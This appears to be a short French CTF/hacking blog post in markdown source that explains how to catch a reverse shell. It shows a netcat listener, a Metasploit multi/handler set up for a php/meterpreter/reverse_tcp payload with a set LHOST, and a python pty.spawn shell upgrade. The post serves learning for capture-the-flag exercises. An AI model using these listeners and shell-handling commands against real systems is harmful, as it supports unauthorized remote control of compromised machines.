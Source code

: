 ```yaml
---
layout: post
section-type: post
title: Se mettre sous écoute sur un port
category: exploitation web
tags: [ 'reverse_shell', 'web', 'hacking', 'ctf' ]
---
```


---------------------------------------------
#### Mise en garde
Dans cet article, je vous montre un simple usage de netcat et meterpreter. Pour aller plus loin, RTFM :p 

---------------------------------------------

#### Pré requis 
1-Avoir installer meterpreter pour la Méthode 2 <br/>

---------------------------------------------
#### Méthode 1: Utiliser netcat
  <pre><code data-trim class="yaml">
      #se mettre sous écoute sur le port 1234
      netcat -lvp 1234 
  </code></pre> <br/>
  
  NB: Il n’est pas nécessaire d’avoir les droits "root" pour mettre un port en écoute !
  
---------------------------------------------
#### Méthode 2: Utiliser meterpreter
  <pre><code data-trim class="yaml">
      #se mettre sous écoute en utilisant le payload php msfconsole
      use exploit/multi/handler
      set payload php/meterpreter/reverse_tcp
      set LHOST 10.23.201.17
      set LPORT 1234
      run
  </code></pre> <br/>
     
  NB: Il n’est pas nécessaire d’avoir les droits "root" pour mettre un port en écoute !
  
---------------------------------------------
#### Aller plus loin
  <pre><code data-trim class="yaml">
    #Faire en sorte que le shell gère les entrées/sorties sans broncher ;)
    python -c 'import pty; pty.spawn("/bin/bash")' 
  </code></pre> <br/>
 
 ---------------------------------------------
